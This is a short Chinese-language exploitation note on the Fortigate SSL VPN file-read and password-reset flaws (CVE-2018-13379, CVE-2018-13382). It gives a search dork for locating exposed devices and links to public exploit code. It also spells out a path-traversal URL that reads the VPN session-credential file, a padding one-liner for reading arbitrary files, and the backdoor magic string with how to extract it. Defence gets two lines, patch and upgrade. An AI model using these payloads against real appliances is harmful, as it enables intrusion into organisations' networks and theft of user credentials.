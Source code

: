   

Fortigate SSL VPN 文件读取 / 远程代码执行
===============================

**1.** **漏洞简介**

Fortigate SSL VPN 在全球用户量巨大, 去年橘子哥发现了文件读取和远程代码执行漏洞

**2.** **影响组件**  
Fortigate SSL VPN

**3.** **漏洞指纹**

Fortigate

4tinet2095866

**4\. Fofa Dork**

"Fortigate" && port=10443

**5.** **漏洞分析**

Orange: Attacking SSL VPN – Part 2: Breaking the Fortigate SSL VPN  
https://blog.orange.tw/2019/08/attacking-ssl-vpn-part-2-breaking-the-fortigate-ssl-vpn.html?m=1

**6.** **漏洞利用**

密码读取

milo2012/CVE-2018-13379: CVE-2018-13379  
https://github.com/milo2012/CVE-2018-13379

任意密码重置, 这肯定是个后门

milo2012/CVE-2018-13382: CVE-2018-13382  
https://github.com/milo2012/CVE-2018-13382

**7.** **利用技巧**

1\. 文件读取的路径构造

https://xxxxxx:10443/remote/fgt\_lang?lang=/../../../..//////////dev/cmdb/sslvpn\_websession

如下 padding 可以构造出来任意文件读取, 可以读取其他文件, 注意这个系统好像没有 /etc/passwd print("/../../../../"+(raw\_input().rjust(35, '/')))

2\. 寻找魔术数字

虽然当时橘子哥没有公开魔术数字, 但是当时随手分析了一下下面这个启动文件, 搜索一下 magic 就找到 4tinet2095866,

https://xxxxxxxx:10443/remote/fgt\_lang?lang=/../../../../////////////////////////bin/sslvpnd

后来发现这个字符串在 js 里面也有, 直接从前台分析也可以获得

https://xxxxx:10443/sslvpn/js/lgin.js?q=5f9a6877fd1f78da768239aae6e739c2

**8.** **防护方法**

1\. 及时更新补丁

2\. 升级到最新版  

8  
